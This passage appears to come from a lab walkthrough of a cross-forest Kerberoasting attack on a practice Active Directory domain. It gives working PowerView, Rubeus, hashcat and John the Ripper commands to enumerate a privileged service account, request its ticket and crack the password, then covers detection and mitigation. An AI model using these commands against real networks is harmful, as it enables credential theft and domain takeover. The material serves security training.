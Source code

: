 **Step 2: Target Assessment**
```powershell
# Verify target account privileges
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
# Confirm: mssqlsvc is member of Domain Admins group
```

**Step 3: Cross-Forest Kerberoasting**
```powershell
# Execute Kerberoasting attack across forest trust
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

# Extract TGS ticket hash from output:
# $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$[hash_data]
```

**Step 4: Hash Cracking**
```bash
# Transfer hash to Kali/Linux system for cracking
# Save hash to file: mssqlsvc_hash.txt
# Use Hashcat with mode 13100 for Kerberos 5 TGS-REP
hashcat -m 13100 mssqlsvc_hash.txt /usr/share/wordlists/rockyou.txt

# Alternative: Use John the Ripper
john --format=krb5tgs mssqlsvc_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**🎯 Answer**: `[Cleartext password obtained from hash cracking]`

---

## ⚠️ **Security Implications**

### **Trust Configuration Weaknesses**
- **Bidirectional trusts**: Increase attack surface across forest boundaries
- **SID filtering disabled**: Allows unauthorized privilege escalation
- **Foreign group membership**: Cross-forest administrative access
- **Password reuse**: Shared credentials across forest boundaries

### **Detection Considerations**
- **Cross-forest authentication**: Monitor unusual authentication patterns
- **Kerberos ticket requests**: Detect TGS requests across trust boundaries
- **Foreign security principals**: Audit cross-forest group memberships
- **SID History monitoring**: Track SID History attribute modifications

### **Mitigation Strategies**
- **Selective authentication**: Restrict trust authentication scope
- **SID filtering**: Enable proper SID filtering for external trusts
- **Privilege isolation**: Separate administrative accounts per forest
- **Regular auditing**: Review foreign group memberships and trust configurations

---


[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS> whoami
[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS> ipconfig /all